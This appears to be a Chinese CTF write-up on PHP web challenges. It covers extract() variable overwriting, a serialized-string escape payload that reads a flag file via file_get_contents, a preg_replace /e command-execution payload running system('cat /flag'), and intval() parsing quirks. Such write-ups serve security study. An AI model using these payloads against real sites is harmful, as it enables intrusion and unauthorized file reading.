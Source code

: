```yaml
---
catalog: true
tags:
    web
    php
---
```

## $_SESSION的使用
>$_SESSION是访客与整个网站交互过程中一直存在的公有变量  
如果post传参为`_SESSION[flag]=123`，那么`$_SESSION["user"]`和`$_SESSION["function"]`的值都会被覆盖。  
extract()函数的变量覆盖，使得上面两个参数可控  


```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] ='123';
echo '覆盖前：';
var_dump($_SESSION);
echo "<br>";
extract($_POST);
echo '覆盖后：';
var_dump($_SESSION);
```

## 反序列化的字符串逃逸(变少)

字符变少就有逃逸的空间

### file_get_content()可以读取敏感文件

## [安洵杯 2019]easy_serialize_php

查看源码，首先filter()对字符进行过滤，造成了字符串逃逸的空间；

![截图](/pic/189f4d43a70affced4e4bc3492565687.png)

extract()函数的变量覆盖，使得上面两个参数可控

![截图](/pic/00cd59ba640944bba3726c18be23bbc0.png)

要让guest_img.png逃逸，把需要读的文件顶上去

题目告诉我们可以通过phpinfo()查找到`d0g3_f1ag.php`,此时需要将这个文件通过`file_get_content()`来读取，那么就把`img`换成这个`d0g3_f1ag.php`就好啦

<br/>

现在开始序列化

```php
首先进行第一次
<?php
	$_SESSION["user"] = 'xx';
	$_SESSION['function'] = 'xxx';
	$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
	echo serialize($_SESSION);
?>
```

> a:3:{s:4:"user";s:2:"xx";s:8:"function";s:3:"xxx"`;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

```php
紧接着进行第二次
<?php
	$_SESSION["user"] = 'phpphpflagflagflagflag';
	//由于";s:8:"function";s:57:共有22个字符，所以要把user也凑成可以替代的22个
	$_SESSION['function'] = ';s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"aa";}';
	//由于有三个变量，所以自己构造一个s:1:"a";s:2:"aa";
	$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
	echo serialize($_SESSION);
?>


//a:3:{s:4:"user";s:22:"phpphpflagflagflagflag";
//s:8:"function";s:57:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"aa";}";
//s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

> 这样子flag.php就读出来信息啦

![截图](/pic/1c20a5e4cd46dd1990001b98705efd52.png)

![截图](/pic/667fc7de6d7414a27835aae906056bbb.png)

接着将文件名base64编码成`L2QwZzNfZmxsbGxsbGFn`替换进去就行了

刚刚好也是20个字符串，巧了

![截图](/pic/636b73757fd76f08327477102ed80a39.png)

## [BJDCTF2020]ZJCTF，不过如此

preg_replace()的/e模式存在命令执行漏洞
因此构造：

> ?\S%2b=${getFlag()}&cmd=system('cat /flag');

<br/>

## [WUSTCTF2020]朴实无华

intval函数在处理十六进制时会出现问题，当作字符串来处理，但是intval(字符串+1)时会转变为数字

intval()函数的使用方法，当函数中用字符串方式表示科学计数法时，函数的返回值是科学计数法前面的一个数，而对于科学计数法加数字则会返回科学计数法的数值

```php
<?php
$num='2e4';
echo(intval($num));
echo('<br>');
echo(intval($num+1));
?>

输出：
2
20001
```
